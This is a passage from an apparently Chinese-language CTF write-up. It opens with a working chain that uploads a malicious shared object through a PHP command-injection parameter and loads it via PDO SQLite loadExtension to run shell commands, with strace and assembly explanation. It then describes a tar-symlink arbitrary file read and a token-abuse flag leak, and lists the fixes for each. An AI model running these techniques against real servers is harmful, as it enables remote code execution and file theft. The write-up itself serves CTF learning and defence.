    print("示例: python3 post_file.py http://target.com/index.php exploit.so")
    sys.exit(1)

url = sys.argv[1]
so_file = sys.argv[2]
output_path = sys.argv[3] if len(sys.argv) > 3 else '/tmp/' + so_file.split('/')[-1]

# 读取so文件
with open(so_file, 'rb') as f:
    so_data = f.read()

# 转base64
so_base64 = base64.b64encode(so_data).decode('ascii')

# 生成PHP代码
php_code = f"file_put_contents('{output_path}', base64_decode('{so_base64}'));"

# 发送POST请求
response = requests.post(url, data={'cmd': php_code}, timeout=30)
print(response.text)

```

#### **写入要执行的命令并加载扩展**

```plain text
// 写入要执行的命令
file_put_contents("/tmp/1.txt", "cat /flag_xxx > /tmp/4.txt");

// 创建 SQLite 连接并加载扩展
$db = new Pdo\Sqlite('sqlite::memory:');
$db->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);
$db->loadExtension('/tmp/exploit.so');  
// 触发 .so 初始化，执行命令
// 读取结果
echo file_get_contents("/tmp/4.txt")
```

#### &#x20;**加载过程详解**

```plain text
$db = new Pdo\Sqlite('sqlite::memory:');
$db->loadExtension('/tmp/exploit.so');
```

对应的系统调用序列（使用 `strace` 观察）：

```plain text
# 1. 打开 .so 文件
openat(AT_FDCWD, "/tmp/exploit.so", O_RDONLY|O_CLOEXEC) = 4

# 2. 读取 ELF 头部
read(4, "\177ELF\2\1\1\0\0\0...", 832) = 832

# 3. 映射到内存（dlopen）
mmap(NULL, 16384, PROT_READ|PROT_EXEC, MAP_PRIVATE, 4, 0) = 0x7f1234567000

# 4. 解析符号表，查找 sqlite3_exploit_init（dlsym）
# 在 0x7f1234567149 找到函数入口

# 5. 调用 sqlite3_exploit_init()
# 函数内部执行：
fopen("/tmp/1.txt", "r") = 5
fgets(buf, 512, 5) → "cat /flag > /tmp/4.txt"

# 6. 执行 system()
clone(CLONE_CHILD_CLEARTID|SIGCHLD, ...) = 12345
execve("/bin/sh", ["sh", "-c", "cat /flag > /tmp/4.txt"], ...)

```

***

#### **为什么 system() 能执行？**

关键在于 `.so` 文件的**动态链接**：

```plain text
c复制
// exploit.so 的汇编代码（简化）
sqlite3_exploit_init:
    push   rbp
    mov    rbp, rsp
    // ...
    call   fopen@plt        # 通过 PLT 调用 libc 的 fopen
    // ...
    call   system@plt       # 通过 PLT 调用 libc 的 system
    // ...
    ret
```

`@plt` 表示通过**过程链接表**调用：

```plain text
复制
system@plt:
    jmp    *system@got      # 跳转到 GOT 表中的地址system@got:
    .quad  0x7ffff7a52390  # 指向 libc.so.6 中 system() 的真实地址
```

**完全绕过 PHP 层**，直接调用操作系统的 `libc`！


```python
PHP 代码: $db->loadExtension('/tmp/exploit.so')
    ↓
PDO SQLite 驱动: sqlite3_load_extension()
    ↓
dlopen() 加载 exploit.so 到进程空间
    ↓
dlsym() 查找 sqlite3_exploit_init 符号
    ↓
调用 sqlite3_exploit_init()
    ↓
C 代码直接调用 libc 的 system()
    ↓  (绕过 PHP 层)
execve("/bin/sh", ["-c", "cat /flag"], ...)

```


## NSL || XXX || SOLVED

### 题目描述


* /tickets/{ticket\_id}/upload

  * 早期代码问题点：

    * 允许在暂存目录下原样创建归档成员（包括符号链接、硬链接），或写入带有特殊 metadata 的成员；

    * 路径校验仅校验“相对 staging\_root”的越界，但未剥离危险类型。

* 导出端：GET /diagnostics/bundle?ticket=\<id>

  * 早期代码问题点：

    * 使用 tarfile.open(..., dereference=True) 并直接 archive.add(candidate)；

    * 对于候选路径若为符号链接，打包时会“解引用”并把目标真实文件内容放入 tar（例如 /flag），等同于任意文件读取。

1. 利用步骤（与你抓到的 pcap 一致）

* 注册账号、创建工单；

* 构造并上传恶意 exploit.tar，其内包含：

  * manifest.json（控制导出时的 includes 列表）

  * leak（符号链接，其 linkname 指向 /flag）

* 请求导出 /diagnostics/bundle?ticket=...：

  * 早期导出逻辑对 leak 进行 archive.add(..., dereference=True)，把 /flag 的内容打进 tar；

  * 最终下载的 diagnostics-....tar 内包含了明文 flag。

3. 根因

* 上传阶段未禁止符号/硬链接且“原样还原”；导出阶段对符号链接“解引用”并直接打包实际目标文件。

* 两端组合导致“被动捆绑宿主文件”成立。

- 当前修复要点

* 上传（app/routes/support.py）：

  * 严格拒绝符号链接与硬链接（issym() / islnk()），仅接收目录与常规文件；

  * 限制单包大小（20 MiB）、成员数量（≤200）与单成员大小（≤8 MiB）；

  * 抽取时“正则化”：读取成员内容并以新文件写入（忽略原 tar 元数据）。

* 导出（app/routes/diagnostics.py）：

  * 不解引用链接（dereference=False），仅接受 staging 内“真实常规文件”；

  * 路径 resolve() 后再次校验必须位于 staging\_root；

  * 跳过符号链接和多硬链接（nlink>1），限制单文件与总量；

  * 重新构建 TarInfo 与数据流，按“干净 REG”写入 tar 包，彻底剥离危险元数据。


#### 攻击路径二：Vault 令牌链路被滥用（直取 flag）

目标：拿到能访问诊断服务 /admin/vault/snapshot 的有效 Bearer token，并通过主站代理拿到 flag。

1. &#x20;用户控制点

* 中继握手（POST /api/relays/bootstrap）

  * 早期逻辑会无条件签发形如 NL-VAULT-<随机> 的 access\_token 并落库为 RelayToken。

  * 没有设备侧强校验与绑定（如签名证明/nonce），注册用户可自行创建 relay 并获取可用的 NL-VAULT-\*。

* 主站金库代理（GET /admin/vault/snapshot → 127.0.0.1:6070）

  * 早期主站代理仅转发 Authorization，无角色/源限制，且将上游 JSON 原样返回；

* 诊断服务（GET 127.0.0.1:6070/admin/vault/snapshot）

  * 早期行为对 RelayToken.access\_token 命中即返回 JSON，包含 flag 明文。

- 利用步骤（与你抓到的 pcap 一致）

* 注册账号；

* 调 relay/bootstrap 获取 NL-VAULT-\* token（或通过其它途径得到模式正确的 token）；

* 直接对主站 GET /admin/vault/snapshot，头上带 Authorization: Bearer NL-VAULT-...；

* 主站转发到诊断服务，早期诊断服务将 flag 明文返回，主站不做脱敏直接回给攻击者。

- 根因

* 令牌获取门槛过低（任何注册用户可生成中继并拿到有效 access\_token）；

* 主站代理缺少 RBAC 与脱敏；

* 诊断服务对 RelayToken 身份仅做存在性校验，不区分权限等级，也不限制是否可取明文 flag。

- 当前修复要点

* 诊断服务（app/diagnostics\_service.py）：

  * 仅维护令牌返回 flag；RelayToken 仅返回 hash 与 mode；

  * 对来路 token 增强校验（前缀与长度）并落库匹配。

* 主站代理（app/routes/diagnostics.py）：

  * 仅 role=system 可使用该代理；

  * 上游响应统一剥离 flag 字段为 \[redacted]。

* 队列与日志（app/pulsebus/core.py）：

  * 维护快照任务写日志前脱敏 flag。

* 令牌生成（app/routes/relays.py）：

  * 加强 token 随机度与长度（拼接两段随机 ID），显著拉高撞库成本。

* 任务调度（app/routes/pulsebus.py）：

  * 彻底锁定 topic/privileged 使用模板值，仅允许模板 params 白名单键；

  * 如任务被标记为 privileged，非 system 用户拒绝（前瞻防御）。


